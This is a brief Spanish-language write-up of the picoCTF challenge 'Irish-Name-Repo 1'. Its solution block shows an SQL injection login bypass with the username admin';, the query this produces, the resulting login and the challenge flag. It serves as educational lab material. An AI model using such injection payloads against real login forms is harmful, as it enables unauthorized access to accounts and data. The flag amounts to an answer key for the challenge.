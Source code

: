 # Irish-Name-Repo 1
# Objetivos
Hay un sitio web en funcionamiento en `https://jupiter.challenges.picoctf.org/problem/52849/` ([enlace](https://jupiter.challenges.picoctf.org/problem/52849/)). Alguien ha omitido el inicio de sesión antes, y ahora se está fortaleciendo. ¡Intenta ver si aún puedes iniciar sesión! o http://jupiter.challenges.picoctf.org:52849

# Solucion
```bash
username: admin';
password: password
SQL query: SELECT * FROM users WHERE name='admin';' AND password='password'

# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_fa983901}
```

# Notas adicionales
Si se utiliza  '; en algún punto de la inyección el resto de las consultas se ignoraran 
# Referencias
https://www.w3schools.com/sql/sql_injection.asp